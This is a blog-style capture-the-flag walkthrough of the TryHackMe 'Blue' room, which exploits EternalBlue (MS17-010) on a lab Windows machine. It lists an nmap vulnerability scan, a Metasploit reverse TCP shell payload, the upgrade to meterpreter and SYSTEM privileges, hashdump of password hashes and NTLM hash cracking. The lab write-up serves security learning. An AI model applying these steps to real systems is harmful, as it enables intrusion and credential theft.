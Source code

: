 ```yaml
---
layout: blog
title: THM Blue Writeup
publishDate: 2023-12-02T23:15:00.000Z
description: Step by step walkthrough of the TryHackMe Blue room. This is an
  easy windows machine based on the EternalBlue exploit (CVE-2017-0144).
tags:
  - tryhackme
  - writeup
---
```

EternalBlue is a computer exploit developed by the U.S. National Security Agency (NSA). It was leaked by the Shadow Brokers hacker group on April 14, 2017, one month after Microsoft released patches for the vulnerability.
[EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)

## Task 1

Scan all open ports for vulnerabilities using Nmap.

```sh
nmap -sV -vv --script vuln TARGET_IP -oN nmap/blue
```

## Task 2

Run Metasploit. Search for MS17-010 exploits and select the appropriate one. Set RHOSTS to the target's IP address.

```sh
set payload windows/x64/shell/reverse_tcp
```

Run the exploit to get shell access. 

## Task 3

To upgrade the shell to meterpreter, first background the shell (Ctrl+Z). Check the session ID using `sessions` command. 
Note the session ID and run:

```sh
sessions -u <session-id>
```

This command should use the post module `post/multi/manage/shell_to_meterpreter` to upgrade the selected session.

Verify that we have escalated to `NT AUTHORITY\SYSTEM`. Run `getsystem` to confirm this.

![](/images/uploads/screenshot-2025-03-21-232450.png)

Migrate to this process using the `migrate PROCESS_ID` command, where process ID can be any process running on `NT AUTHORITY\SYSTEM`. List all processes by running `ps`.

![](/images/uploads/screenshot-2025-03-21-232513.png)

## Task 4

Within our elevated meterpreter shell, run the command `hashdump`. This will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![](/images/uploads/screenshot-2025-03-21-232527.png)

To crack the password of user 'Jon', extract the NTLM hash and use [CrackStation](https://crackstation.net/)

![](/images/uploads/screenshot-2025-03-21-232544.png)

***
